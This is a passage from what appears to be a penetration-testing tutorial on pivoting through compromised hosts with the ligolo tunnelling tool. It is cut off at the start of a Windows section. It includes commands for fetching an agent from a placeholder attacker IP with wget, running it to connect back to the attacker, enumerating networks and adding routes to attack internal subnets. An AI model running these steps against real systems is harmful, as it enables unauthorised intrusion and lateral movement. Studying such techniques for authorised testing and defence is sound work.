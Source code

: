 sudo python -m http.server 80
Grab the agent file from the attacker machine using wget.

Run these commands on the Target Machine:

wget http://<your attacker machine IP here>/lin-agent

chmod +x lin-agent

./lin-agent -connect <attacker IP here>:443 -ignore-cert

Connection Established
You should see the connection get grabbed by the ligolo tool if the commands were ran successfully on target machine. You can manage your tunneled sessions in the tool by typing session in the above example screenshot and you can toggle between them once more are established. \

Step 3:

On the target machine if you enumerated you can discover other network interfaces the machine is interacting with or established connections to other internal IP’s. This will help us pivot to other networks and continue our attacks.

Run the following commands to discover other networks the machine is interacting with:

Linux Machine:

netstat -an

ip route

ifconfig

Target machine showing indicators of other networks
Now that we have the target network we want to pivot to in order to reach the other hosts and attack them lets add them to ligolo routes and start them.

On Attacker machine run:

sudo ip route add 192.168.110.0/24 dev ligolo

My routes for each machine compromised
Now you should be able to reach those other IP’s and perform attacks ;)

Step 4 (Next Pivot):

Let’s say we get a hold of a domain controller from carrying out our attacks from that subnet we pivoted to, and we notice now that this host is on Windows and is also communicating with another subnet after doing some enumeration. You can use some commands to enumerate and utilize powerview or winPEAS.

PowerView is a PowerShell tool to gain network situational awareness on Windows domains. It contains a set of pure-PowerShell replacements for various windows “net *” commands, which utilize PowerShell AD hooks and underlying Win32 API functions to perform useful Windows domain functionality.

PowerTools/powerview.ps1 at master · PowerShellEmpire/PowerTools
This file contains bidirectional Unicode text that may be interpreted or compiled differently than what appears below…
github.com

Windows Machine:
